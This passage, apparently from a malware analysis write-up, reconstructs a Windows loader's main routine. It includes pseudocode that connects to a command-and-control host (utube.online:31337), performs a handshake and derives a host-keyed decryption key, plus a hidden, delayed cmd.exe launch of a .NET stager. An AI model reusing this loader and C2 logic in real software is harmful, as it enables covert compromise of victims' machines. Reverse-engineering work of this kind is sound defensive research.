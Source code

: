 2. Tearing down Winsock (network phase completed)
    
3. Preparing the **.NET stager** — `sub_140001980(blobA, ComputerName)`
    
4. Building a **delay-run command line** for `CreateProcessW` — `sub_1400011A0`:  
    `"cmd.exe /C ping 127.0.0.1 -n 10 > Nul & <decoded-path>"`
    
5. Spawning a hidden child process: `CreateProcessW` with `dwCreationFlags = CREATE_NO_WINDOW (0x08000000)` and the command just built
    
6. Cleanup and exit
    

In pseudo-code, this is what’s happening in `main`:

```c
// ----------------------------------------------------------------------------
// main – complete pseudocode
// ----------------------------------------------------------------------------
int __fastcall main(int argc, char **argv, char **envp)
{
    /* -----------------------------------------------------------------
       1.  Winsock initialisation
       ----------------------------------------------------------------- */
    WSADATA         ws;
    if (WSAStartup(MAKEWORD(2,2), &ws) != 0)
        return -1;                                       // early abort

    /* -----------------------------------------------------------------
       2.  Resolve utube.online:31337 and connect
       ----------------------------------------------------------------- */
    ADDRINFOA       hints  = {0};
    ADDRINFOA      *list   = NULL;
    SOCKET          s      = INVALID_SOCKET;

    hints.ai_family   = AF_INET;
    hints.ai_socktype = SOCK_STREAM;
    hints.ai_protocol = IPPROTO_TCP;

    if (getaddrinfo("utube.online", "31337", &hints, &list) != 0)
        goto fail_net;

    for (ADDRINFOA *cur = list; cur; cur = cur->ai_next)
    {
        s = socket(cur->ai_family, cur->ai_socktype, cur->ai_protocol);
        if (s == INVALID_SOCKET)              continue;
        if (connect(s, cur->ai_addr, cur->ai_addrlen) == 0) break;

        closesocket(s);                       s = INVALID_SOCKET;
    }
    freeaddrinfo(list);

    if (s == INVALID_SOCKET)                  goto fail_net;

    /* -----------------------------------------------------------------
       3.  Stage-1 handshake
       ----------------------------------------------------------------- */
    send(s, "z11gj1\n", 7, 0);                        // literal banner
    BYTE netBuf[0x400] = {0};
    recv(s, netBuf, sizeof(netBuf), 0);               // up to 0x400 bytes

    /* -----------------------------------------------------------------
       4.  Per-host decryption key
           hostname ^= first-reply (one-time pad)
       ----------------------------------------------------------------- */
    CHAR host[256]   = {0};
    DWORD hostLen    = sizeof(host);
```